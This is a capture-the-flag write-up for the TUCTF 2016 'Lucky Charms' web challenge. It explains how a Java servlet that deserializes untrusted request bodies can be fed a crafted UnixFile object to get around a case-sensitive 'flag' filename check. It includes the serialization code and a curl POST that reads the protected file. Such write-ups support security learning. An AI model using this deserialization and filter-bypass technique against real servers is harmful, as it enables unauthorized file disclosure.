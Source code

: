 ```yaml
---
layout: post
title:  "TUCTF 2016: Lucky Charms (web 150)"
author: kree
categories: writeup
tags: [cat/web, lang/java]
---
```


* **Category:** web
* **Points:** 150
* **Description:** 

> Nothing like cereal and coffee to start your day!

## Writeup

The given website gives you the following hint in the html source:

```html
<!-- <a href="/?look=LuckyCharms.java"></a> -->
```

This `look` parameter lets to peek into the servlets source code:

```java
abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}

class WindowsFile extends OSFile  {
  public String getFileName() {
    //Windows filenames are case-insensitive
    return file.toLowerCase();
  }
}

class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}

...

public class NewServlet extends HttpServlet {

  ...

  public void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
    doPost(request, response);
  }

  public void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
      
      
    response.setContentType("text/html");
    PrintWriter out = response.getWriter();
    
    OSFile osfile = null;
    try {
      osfile = (OSFile) new ObjectInputStream(request.getInputStream()).readObject();
    } catch (Exception e) {
      //Oops, let me help you out there
      osfile = new WindowsFile();
      if (request.getParameter("look") == null) {
        osfile.file = "charms.html";
      } else {
        osfile.file = request.getParameter("look");
      }
    }

    String f = osfile.getFileName().replace("/","").replace("\\","");
    if (f.contains("flag")) {
      //bad hacker!
      out.println("You'll Never Get Me Lucky Charms!");
      return;
    }

    try {
      Path path = Paths.get(getServletContext().getRealPath(f.toLowerCase()));  
      String content = new String(java.nio.file.Files.readAllBytes(path));
      out.println(content);
     } catch (Exception e) {
        out.println(e);
        out.println("Nothing to see here");
     }
  }
  ...
}
```

Basically, we want to use the `look` parameter to extract the content of the file named `flag`. However, there is a check in place that prevents us from spying on the file directly. Our challenge is to get past that check. We notice that the string comparison is case sensitive, but when retrieving the file content, the path string gets transformed to lower case. If we manage `osfile.getFileName()` to return the string `Flag` (or any other String with mixed casing), we should be fine.

If we take another look at the subclasses of OSFile, we notice that the class `WindowsFile` converts its filename to lower case, but `UnixFile` doesn't. For our purpose we would use the latter.

Another observation is the fact that both `http` methods `GET` and `POST` are being handled by `doPost`, but until now we only passed `look` as a `GET` parameter. We need to pass a serialized version of the `OSFile` object with the body of our request. Otherwise we trigger an `EOFException` when invoking `request.getInputStream()` and end up with a `WindowsFile` object.

We can generate a unix object with the following lines:

```java
OSFile unixFile = new UnixFile();
unixFile.file = "Flag";
new ObjectOutputStream(System.out).writeObject(unixFile);
```
We'll store the output in a file and use `curl` to pass the `UnixFile` object over a `POST` request, which yields the flag. 

```
curl 'http://146.148.10.175:1033/LuckyCharms' -H 'Accept-Encoding: gzip, deflate, sdch' -H 'Accept-Language: en-US,en;q=0.8' -H 'Upgrade-Insecure-Requests: 1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Connection: keep-alive' --compressed -X POST --data-binary @object_serialized
```